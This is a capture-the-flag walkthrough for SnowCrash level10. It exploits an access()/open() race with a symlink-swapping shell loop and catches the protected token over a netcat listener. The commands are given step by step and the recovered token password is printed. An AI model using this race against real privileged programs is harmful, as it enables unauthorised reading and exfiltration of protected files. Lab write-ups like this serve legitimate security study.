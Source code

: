 ## level10

There is a level10 executable file and a token file for which I don't have read rights. Running the binary file gives me some informations:
```
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it

level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
```

Thanks to the `strings` command, I can see that the program opens a socket on port 6969 to send the file. So I will use netcat to receive that file (`nc -l 6969`). Of course, I still have to find a way to trick the program into thinking that I have rights over the token file.

I notice the use in the program of the access() function. I don't know this function, but I guess it checks whether the calling process can access the given file. I confirm my intuition by reading the man, and I even find the solution to my problem. Here is the extract that interests me:

>Warning: Using these calls to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

This is called a race condition. What I'm going to do here is to run a small script that will generate a symbolic link to a file I own, then to the token file, all in an infinite loop. In another terminal, I will execute the level10 program by passing it the symbolic link. By running the program several times, we should end up with the flag: the access() function will have been executed with the symbolic link to my file, but when calling open(), the symbolic link will return to the token file.

So to summarize:
1. I start by creating a file that I own: `echo > /tmp/exploit`
2. In a first terminal, I create in loop my symbolic link: `while :; do ln -sf /tmp/exploit /tmp/ln; ln -sf ~/token /tmp/ln; done`
3. In another terminal, on my machine, I launch netcat and I listen to the port 6969: `nc -lk 6969` 
4. In a third terminal, in the VM, I run the level10 program several times with the symbolic link and the machine's IP address as arguments: `./level10 /tmp/ln ip`

After some attempts, I receive the content of the token file: "woupa2yuojeeaaed06riuj63c". The `su flag10` command works with this password and I can now run the `getflag` command and go to the next level.
